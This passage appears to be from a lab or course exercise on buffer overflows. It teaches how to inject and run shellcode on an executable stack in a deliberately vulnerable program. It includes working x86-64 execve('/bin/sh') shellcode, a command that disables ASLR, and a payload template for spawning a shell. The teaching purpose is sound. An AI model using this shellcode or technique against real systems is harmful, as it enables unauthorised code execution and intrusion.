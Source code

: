 <details><summary>Hint</summary></details>


### Bonus Part 3: Executing Shellcode

In `overflow3.c` the `win` function has disappeared.
Luckily, the stack is now executable, so we can inject our own code into the `name` buffer and execute it.

We want to use the syscall `execve` to spawn a shell so that we can execute arbitrary commands.
```c
execve("/bin/sh", {NULL}, {NULL});
```
You can find information on `execve` on its [manpage of the C wrapper
function](https://man.archlinux.org/man/execve.2) and in the [syscall
reference](https://filippo.io/linux-syscall-table/).

Try to understand the following shellcode which executes the systemcall:
```nasm
# store b'/bin/sh\0' on the stack
mov rax, 0x68732f6e69622f
push rax
# load a pointer to the string into rdi
mov rdi, rsp
# store a NULL pointer on the stack
xor rax, rax
push rax
# load a pointer to the null pointer into rsi and rdx
mov rsi, rsp
mov rdx, rsp
# load the syscall number of execve into rax
mov rax, 0x3b
# execute the syscall
syscall
```
You can for example use the [Online
Assembler](https://defuse.ca/online-x86-assembler.htm) (remember to select
"x64") to assemble the shellcode to obtain executable machine code.

To complete the exploit, we still need the address where we want to jump, i.e.,
the address of the shellcode inside the `name` buffer.
The program is nice enough to print the address of `name` to us, and if you run
it with the command `setarch $(uname -m) -R ./overflow3`, then ASLR is disabled
and the address stays the same in each execution.

```
(python -c "import os, struct; os.write(1, b'<write your payload here>)"; cat) | setarch $(uname -m) -R ./overflow3
```
If everything works, you should land in a newly spawned shell (the `cat` is
necessary to prevent the shell from getting immediately closed again).
Try executing commands.
